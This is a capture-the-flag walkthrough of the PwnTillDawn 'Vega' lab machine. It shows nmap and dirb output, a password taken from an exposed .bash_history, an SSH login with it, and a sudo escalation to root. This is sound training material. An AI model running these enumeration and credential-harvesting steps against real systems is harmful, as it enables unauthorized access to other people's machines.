 ```yaml
---
categories: [PwnTillDawn]
tags: [Password Bruteforce, Hid&Trial, PrivEsc]  
img_path: /Vulnhub-Files/img/
image:
  path: Vega/Untitled.png
  alt: PwnTillDawn Machine ➡️ https://www.wizlynxgroup.com/ https://online.pwntilldawn.com/
---
```


## Description ⤵️ 

This is a <kbd>*Hollywood*</kbd> machine writeup/walkthrough, from PwnTillDawn platform -> https://online.pwntilldawn.com/ with is maintain through wizlynx group -> https://www.wizlynxgroup.com/ .


## Port Scan Results ⤵️

```bash
**┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ cat Nmap_results.txt
# Nmap 7.94 scan initiated Sun Oct 15 15:37:40 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.222
Nmap scan report for 10.150.150.222
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:56:59:c5:9a:de:f4:a9:b7:8f:34:4b:a2:21:24:71 (RSA)
|   256 1b:e8:16:d4:dc:a6:7a:3e:5d:6f:f2:95:5a:59:08:9a (ECDSA)
|_  256 9c:35:dd:da:ee:a9:b4:0b:55:68:45:fd:8f:85:35:30 (ED25519)
80/tcp    open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home Page
8089/tcp  open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-25T09:19:54
|_Not valid after:  2022-10-24T09:19:54
|_http-server-header: Splunkd
|_http-title: splunkd
10000/tcp open  http     MiniServ 1.941 (Webmin httpd)
|_http-title: Site does not have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel**
```
{: .nolineno}

## Web Enumeration ⤵️

I started doing directory traversal and I got some results from the `/home` directories →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ dirb 'http://10.150.150.222/' 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Oct 15 20:55:21 2023
URL_BASE: http://10.150.150.222/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.150.150.222/ ----
+ http://10.150.150.222/.bash_history (CODE:200|SIZE:2235)                                                                                       
+ http://10.150.150.222/.bashrc (CODE:200|SIZE:3771)                                                                                             
==> DIRECTORY: http://10.150.150.222/.cache/                                                                                                     
+ http://10.150.150.222/.profile (CODE:200|SIZE:807)                                                                                             
+ http://10.150.150.222/0 (CODE:200|SIZE:82726)                                                                                                  
+ http://10.150.150.222/admin (CODE:302|SIZE:0)                                                                                                  
+ http://10.150.150.222/catalog (CODE:302|SIZE:0)                                                                                                
+ http://10.150.150.222/checkout (CODE:302|SIZE:0)                                                                                               
+ http://10.150.150.222/cms (CODE:200|SIZE:82740)                                                                                                
+ http://10.150.150.222/contact (CODE:200|SIZE:28351)                                                                                            
+ http://10.150.150.222/home (CODE:200|SIZE:80260)                                                                                               
+ http://10.150.150.222/Home (CODE:301|SIZE:0)                                                                                                   
+ http://10.150.150.222/index.php (CODE:200|SIZE:82738)                                                                                          
^C> Testing: http://10.150.150.222/known_hosts
```
{: .nolineno}

Lets check `.bash_history` here →

![Untitled](Vega/Untitled%201.png)

I got a mysql password and username as →

```bash
vega : puplfiction1994
```
{: .nolineno}

I tried this credentials for SSH login and I got it as wrong credentials and I also I tried to download the file dumpmagento.sql to the system and the file was of 0 bytes →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$  ls -al dumpmagento.sql 
-rw-r--r-- 1 kali kali 0 Oct 17 20:30 dumpmagento.sql
```
{: .nolineno}

>It means that → 
>
>1. If the database is empty thats why it is of 0 bytes or .
>2. If the password or the login credentials is wrong that is why.
{: .prompt-tip }

I checked the site again and I got something related to the password like this →

![Untitled](Vega/Untitled%202.png)

Now I compared it with password and got to know that the bash_history entry is of human error so lets use this password insted → 

```bash
vega : pulpfiction1994
```
{: .nolineno}

## SSH SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/222]
└─$ ssh vega@10.150.150.222
vega@10.150.150.222 is password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-66-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 17 16:24:55 UTC 2023

  System load:  0.23               Processes:            186
  Usage of /:   43.2% of 19.56GB   Users logged in:      1
  Memory usage: 21%                IP address for ens33: 10.150.150.222
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

51 packages can be updated.
31 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Apr 21 10:11:55 2020
vega@vega:~$ whoami
vega
vega@vega:~$ id
uid=1000(vega) gid=1000(vega) groups=1000(vega),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
vega@vega:~$ sudo -l
[sudo] password for vega: 
Matching Defaults entries for vega on vega:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vega may run the following commands on vega:
    (ALL : ALL) ALL
vega@vega:~$ sudo su -
root@vega:~# whoami
root
root@vega:~# id
uid=0(root) gid=0(root) groups=0(root)
root@vega:~# cd /root
root@vega:~# ls -al
total 60
drwx------  7 root root 4096 May 14  2020 .
drwxr-xr-x 24 root root 4096 Oct 23  2019 ..
-rw-------  1 root root 2513 Apr 21  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  115 May 14  2020 CAM.shortcut
drwxr-xr-x  2 root root 4096 Sep  6  2019 .composer
-rw-r--r--  1 root root   41 Sep 27  2019 FLAG42.txt
drwx------  3 root root 4096 Oct  4  2019 .gnupg
drwxr-xr-x  3 root root 4096 Sep  6  2019 .local
-rw-------  1 root root  651 Apr  2  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Sep  6  2019 .selected_editor
drwx--x---  2 root root 4096 Oct 25  2019 .splunk
drwx------  2 root root 4096 Sep  6  2019 .ssh
-rw-------  1 root root 2085 Sep 27  2019 .viminfo
root@vega:~#
```
{: .nolineno}

Now I am root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }